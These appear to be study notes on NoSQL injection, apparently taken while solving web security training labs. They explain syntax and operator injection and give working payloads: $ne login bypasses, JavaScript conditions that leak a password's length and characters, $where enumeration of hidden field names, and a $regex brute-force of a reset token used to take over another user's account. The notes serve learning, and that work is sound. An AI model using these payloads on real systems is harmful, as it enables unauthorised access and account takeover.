 # NoSQL Injection

NoSQL injection is a vulnerability where an attacker is able to interfere with the queries that an application makes to a NoSQL database.
There are two different types of NoSQL injection:
- **Syntax injection** - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload. Use null operator (`%00`) to ignore upcoming conditions.
- **Operator injection** - This occurs when you can use NoSQL query operators to manipulate queries.
  
  
In JSON messages, you can insert query operators as nested objects. For example, `{"username":"wiener"}` becomes `{"username":{"$ne":"invalid"}}`.
For URL-based inputs, you can insert query operators via URL parameters. For example, `username=wiener` becomes `username[$ne]=invalid`. If this doesn't work, you can try the following:
1. Convert the request method from GET to POST.
2. Change the Content-Type header to application/json.
3. Add JSON to the message body.
4. Inject query operators in the JSON.

### LAB: Exploiting NoSQL injection to extract data
Take advantage of the response for request `GET /user/lookup?user=`

    && this.password.length==8 && '1'=='1 -> Return user's info -> password's length = 8
    && this.password.match(/\d/) && '1'=='1 -> Could not find user -> no digit in password
    && this.password[0]=='$a$ -> Brute force to find the password 


### LAB: Exploiting NoSQL operator injection to extract unknown fields
Add this to the JSON in the POST request to `/login`:

    "$where":"Object.keys(this)[4].match('^.{$0$}.*')"    -> look for the biggest number with a valid response -> that's the length of the key

    "$where":"Object.keys(this)[4].match('^.{0}$a$.*')"   -> this means the first character is 'a'. After finding a valid character, add that to the match (e.g. 'b' is a match -> "$where":"Object.keys(this)[4].match('^.{0}ab.*')") and find the next character

    {"username":"carlos","password":{
    "$ne":""},"changePwd":{ "$regex": "^{$a$}" }}    -> changePwd = af03484db14c7c66 

    go to /forgot-password?changePwd=af03484db14c7c66


